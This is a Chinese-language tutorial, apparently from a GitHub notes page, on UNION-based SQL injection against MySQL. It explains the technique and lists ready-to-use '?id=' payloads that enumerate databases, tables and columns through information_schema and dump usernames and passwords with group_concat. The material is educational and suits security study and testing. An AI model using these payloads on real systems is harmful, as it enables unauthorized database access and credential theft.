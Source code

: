 # SQL注入-联合查询

## 联合查询概念

union联合查询算是最简单的一种注入了，也是最常见的。

UNION操作符用于合并两个或多个SELECT语句的结果集，而且UNION内部的SELECT语句必须拥有相同数量的列，列也必须拥有相似的数据类型，同时，每条SELCCT语句中的列的顺序必须相同。

## **union****注入特点**

1. 有回显，可以看到某些字段的回显结果（通常）
2. 猜解出字段数目
3. 最方便的注入方式
4. Union语句可以填充查询结果，并且额外执行一次查询
5. 只有最后一个SELECT子句允许有ORDER BY或LIMIT

<img src="SQL注入/media/1634051626663278000724.png" alt="SQL注入/media/1634051626663278000724.png" style="zoom:50%;" align="left"/>
那么为了确定回显位置，我们需要第一条查询结果为空，才能将我们填充的数字显示在页面上，所以我们使where限制的条件为空即可。
<img src="SQL注入/media/1634051626667120000838.png" alt="SQL注入/media/1634051626667120000838.png" style="zoom:50%;" align="left"/>
已知comment_id=-5的记录是不存在的，所以我们填写的数字将填充显示位。

## 常用内置函数

version()——MySQL 版本

user()——数据库用户名

database()——数据库名

@@datadir——数据库路径

@@version_compile_os——操作系统版本

## 通过limit进行逐个注入

```sql
逐个爆出库名：?id=-1' union select 1,schema_name,user() from information_schema.schemata limit 0,1 #
逐个爆出表名：?id=-1' union select 1,table_name,user() from information_schema.tables where table_schema='库名' limit 0,1#
逐个爆出字段名：?id=-1' union select 1,column_name,user() from information_schema.columns where table_name='表名' limit 0,1#
爆出需要的字段值：?id=-1' union select 1,username,password from users limit 0,1#
```
## 通过group_concat（）实现更高效的注入

```sql
一次爆出所有数据库名：?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata #
一次爆出所以表名：?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='库名’#
一次爆出所有字段名：?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='表名’#
一次爆出所有字段值：?id=-1' union select 1,group_concat(username,0x7c,password),3 from users#
```
# SQL注入-报错注入
